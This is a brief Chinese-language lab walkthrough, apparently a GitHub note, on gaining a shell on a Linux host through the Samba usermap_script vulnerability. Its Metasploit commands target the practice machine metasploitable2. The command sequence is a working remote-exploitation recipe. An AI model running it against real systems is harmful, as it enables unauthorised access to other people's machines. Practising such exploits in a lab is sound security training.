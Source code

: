 ## 利用samba服务漏洞入侵linux主机

Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成,samba服务对应的端口有139、445.

0、网上搜索samba，得到利用metasploit的exploit

exploit/multi/samba/usermap_script

1、进入msfconsole
```bash 
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > set RHOST metasploitable2
msf exploit(usermap_script) > exploit
#直接进入shell了

```